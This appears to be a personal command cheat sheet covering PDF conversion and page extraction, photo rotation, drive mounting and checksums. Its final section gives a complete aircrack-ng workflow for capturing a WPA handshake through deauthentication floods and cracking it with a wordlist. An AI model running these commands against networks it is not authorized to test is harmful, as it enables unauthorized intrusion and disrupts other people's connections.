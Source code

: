 > pdf2ps _stdin_.pdf large.pdf && ps2pdf large.pdf smal.pdf && rm large.pdf
> gs -dNOPAUSE -dBATCH -sDEVICE=pdfwrite -dCompatibilityLevel=1.4 -dPDFSETTINGS=/screen -sOutputFile=new_file.pdf original_file.pdf

- extract pdf pages

> pdftk A=Writing_Academic_English.pdf cat A300-308 output conjunctions.pdf

- fix discrupted pdf

> pdftk conjunctions.pdf output conjunctions_fixed.pdf

## rotate photos

```sh
    jhead -autorot .JPG
```

## latex

## Root mount for specific user
sudo mount -o gid=users,fmask=113,dmask=002 /dev/sdb1 /mnt/usb

## Md5
md5sum -c razor-mmb29q-factory-0fe7279d.tgz.md5

## aircrack

- Create interface

```sh
sudo airmon-ng start wlp0s29u1u2
```

- Dump all ESSIDs, and pick one target (note bssid, essid, and channel)

```sh
sudo airodump-ng mon0
```

- Dump targeted ESSID

```sh
cd /tmp && sudo airodump-ng --channel 1 --bssid 10:9F:A9:EC:25:3F -w file-<essid> mon0
```

- Replay until get WPA handshake, note that

```sh
sudo aireplay-ng -0 10000 -a 10:9F:A9:EC:25:3F<BSSID> -c 74:F0:6D:3F:17:FA<STATION MAC> mon0
```

- Check pwd db

```sh
sudo aircrack-ng -w ~/Downloads/password-dir/1 -b 10:9F:A9:EC:25:3F<WPA handshake> file-<essid>*.cap
```
